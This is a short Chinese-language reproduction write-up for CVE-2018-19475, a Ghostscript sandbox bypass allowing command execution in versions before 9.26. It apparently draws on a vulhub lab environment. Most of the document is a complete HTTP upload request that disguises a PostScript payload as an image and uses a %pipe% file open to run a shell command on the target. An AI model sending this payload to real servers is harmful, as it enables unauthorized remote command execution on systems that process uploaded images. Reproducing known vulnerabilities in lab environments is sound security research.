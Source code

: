 （CVE-2018-19475）GhostScript 沙箱绕过（命令执行）漏洞
======================================================

一、漏洞简介
------------

./psi/zdevice2.c文件存在安全特征问题漏洞。该漏洞是源于网络系统或产品中缺少身份验证、访问控制、权限管理等安全措施。

二、漏洞影响
------------

Ghostscript 9.26之前版本

三、复现过程
------------

将POC作为图片上传，执行命令`id > /tmp/success && cat /tmp/success`：

    POST /index.php HTTP/1.1
    Host: target
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryukZmnyhO
    Content-Length: 279

    ------WebKitFormBoundaryukZmnyhO
    Content-Disposition: form-data; name="file_upload"; filename="1.jpg"
    content-Type="image/png"

    %!PS
    0 1 300367 {} for
    {save restore} stopped {} if
    (%pipe%id > /tmp/success && cat /tmp/success) (w) file
    ------WebKitFormBoundaryukZmnyhO--

命令已成功执行：

![](./resource/(CVE-2018-19475)GhostScript沙箱绕过(命令执行)漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/ghostscript/CVE-2018-19475/
